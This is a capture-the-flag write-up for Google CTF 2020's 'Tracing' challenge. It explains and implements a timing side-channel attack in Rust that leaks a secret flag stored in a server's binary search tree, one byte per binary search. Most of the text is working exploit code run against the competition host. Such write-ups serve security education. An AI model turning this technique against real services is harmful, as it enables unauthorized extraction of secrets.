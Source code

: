 +++
title = "Tracing"
weight = 1
+++

# tracing

_pwn, easy_

[source](https://github.com/tamucybersec/gctf-2020/tree/master/pwn/tracing)

> An early prototype of a contact tracing database is deployed for the developers to test, but is configured with some sensitive data. See if you can extract it.

## initial review

we are provided a rust source package.  A quick scan of the Cargo.toml shows that no dependencies have known vulnerabilities.  

```toml
[package]
name = "pwn-tracing"
version = "0.1.0"
authors = ["Robin McCorkell <rmccorkell@google.com>"]
edition = "2018"

[dependencies]
log = "0.4.8"
env_logger = "0.7.1"
futures = "0.3.5"
uuid = "0.8.1"

[dependencies.async-std]
version = "1.6.1"
features = ["attributes"]
```

```
❯ grep -r "unsafe" .
```

A quick grep shows that there are no unsafe keywords which means we are likely looking at a logic error.  


```rust
use async_std::net::{TcpListener, TcpStream};
use async_std::prelude::*;
use log::{debug, warn};
use pwn_tracing::bst::BinarySearchTree;
use uuid::Uuid;

const BIND_ADDR: &str = "0.0.0.0:1337";

async fn accept(mut stream: TcpStream, checks: Vec<Uuid>) -> std::io::Result<()> {
    debug!("Accepted connection");
    let bytes = (&stream).bytes().map(|b| b.unwrap());
    let chunks = {
        // Ugh, async_std::prelude::StreamExt doesn't have chunks(),
        // but it conflicts with futures::stream::StreamExt for the methods it
        // does have.
        use futures::stream::StreamExt;
        bytes.chunks(16)
    };
    let mut count: u32 = 0;
    let ids = chunks.filter_map(|bytes| {
        count += 1;
        Uuid::from_slice(&bytes).ok()
    });
    let tree = {
        use futures::stream::StreamExt;
        ids.collect::<BinarySearchTree<_>>()
    }
    .await;
    debug!("Received {} IDs", count);
    stream.write_all(&count.to_be_bytes()).await?;

    debug!("Checking uploaded IDs for any matches");
    checks
        .iter()
        .filter(|check| tree.contains(check))
        .for_each(|check| warn!("Uploaded IDs contain {}!", check));
    stream.shutdown(std::net::Shutdown::Both)?;
    debug!("Done");
    Ok(())
}

#[async_std::main]
async fn main() -> std::io::Result<()> {
    env_logger::init();

    let checks: Vec<Uuid> = std::env::args()
        .skip(1)
        .map(|arg| Uuid::from_slice(arg.as_bytes()).unwrap())
        .collect();

    debug!("Loaded checks: {:?}", checks);

    let listener = TcpListener::bind(BIND_ADDR).await?;
    let mut incoming = listener.incoming();

    while let Some(stream) = incoming.next().await {
        let stream = stream?;
        async_std::task::spawn(accept(stream, checks.clone()));
    }
    Ok(())
}
```



To summarize: 

1. Load arguments as stored UUIDs
2. Start up TCP server
3. Read input from a connection, split it into 16 byte chunks, and map it into UUIDs
4. Write the number of received UUIDs back to the client
5. Construct a binary search tree from the received UUIDs
6. Check if the arg UUIDs are in that binary tree and if so say something in the log
7. Close the connection

We get very little data back from the server.  From the note provided with the challenge it seems likely that our flag is stored in the arg UUIDs but we don't have any obvious ways to extract that because we don't get feedback based on how the binary search works out. 

## attack overview

We realized that we although we couldn't get any feedback directly, we could perform a timing attack.  By constructing a binary tree such that uuids lower than the node hit the end of the tree immediately and uuids higher have to traverse a long tail we can leak which direction the character is in.  By performing a binary search (heh) we can narrow this down to the exact byte in 8 connections.  This can be done for everything except the last two characters because of how we created the payload.  Fortunately, we know that the last character in the flag is a closing bracket and the 2nd to last character was obvious from context.  

```rust
use itertools::Itertools;
use std::cmp::Ordering;
use std::cmp::Ordering::{Equal, Greater, Less};
use std::error::Error;
use std::iter::Iterator;
use std::time::{Duration, Instant};
use tokio::io::{AsyncReadExt, AsyncWriteExt};
use tokio::join;
use tokio::net::TcpStream;
use tokio::time::delay_for;

fn create_payload(known: &[u8], i: u8) -> Vec<[u8; 16]> {
    (0..=0xff)
        .cartesian_product(0..=0x2f)
        .map(|(l, r)| {
            let mut res = [0u8; 16];
            res[0..known.len()].clone_from_slice(&known[..]);
            res[known.len()] = i;
            res[known.len() + 1] = l;
            res[known.len() + 2] = r;
            res
        })
        .collect::<Vec<[u8; 16]>>()
}

async fn attack(entries: Vec<[u8; 16]>) -> Result<Duration, Box<dyn Error>> {
    let mut total = Duration::new(0, 0);
    let mut tasks = Vec::new();

    let NUM_TRIES: u8 = 3;

    for _ in 0..NUM_TRIES {
        let entries = entries.clone();
        tasks.push(tokio::spawn(async move {
            let (mut read, mut write) = TcpStream::connect("tracing.2020.ctfcompetition.com:1337")
                // let (mut read, mut write) = TcpStream::connect("localhost:1337")
                .await
                .unwrap()
                .into_split();
            for e in &entries {
                write.write_all(e).await.unwrap();
            }

            let mut resp = Vec::new();
            write.flush().await.unwrap();
            delay_for(Duration::new(10, 0)).await;
            write.shutdown().await.unwrap();
            let mut buf = [0; 4];
            read.read(&mut buf).await.unwrap();
            let start = Instant::now();
            read.read_to_end(&mut resp).await.unwrap();
            let elapsed = start.elapsed();


            assert_eq!(entries.len() as u32, u32::from_be_bytes(buf));
            elapsed
        }));
    }

    for task in tasks {
        total += task.await?;
    }

    Ok(total / NUM_TRIES as u32)
}

async fn discover_next(known: &[u8]) -> Result<u8, Box<dyn Error>> {
    let time_low = Duration::from_millis(10);

    let mut first = 0;
    let mut it = 0;
    let mut step = 0;
    let mut count = 255;
    while count > 0 {
        it = first;
        step = count / 2;
        it += step;
        let duration = {
            let mut curr = Duration::from_millis(0);
            loop {
                let temp = attack(create_payload(known, it)).await;
                if temp.is_ok() {
                    curr = temp.unwrap();
                    break;
                }
            }
            curr
        };
        if duration > time_low {
            it += 1;
            first = it;
            count -= step + 1
        } else {
            count = step;
        }
        println!("{} - {} - {:?}", it, step, duration);
    }
    it -= 1;
    Ok(it)
}

#[tokio::main]
async fn main() -> Result<(), Box<dyn Error>> {
    let mut flag: Vec<u8> = "".bytes().collect();
    // can't consistently crack the last two chars because there isn't space to make long binary tree branches
    // the last char is known to be } because of the flag format but the second to last char just needs to be guessed
    // it was pretty obviously e from the pattern
    for _ in 0..14 {
        let next = discover_next(&flag).await?;
        flag.push(next);
        println!("flag thus far: {}", String::from_utf8_lossy(&flag));
    }
    assert_eq!( String::from_utf8_lossy(&flag) + "e}", "CTF{1BitAtATime}");
    Ok(())
}
```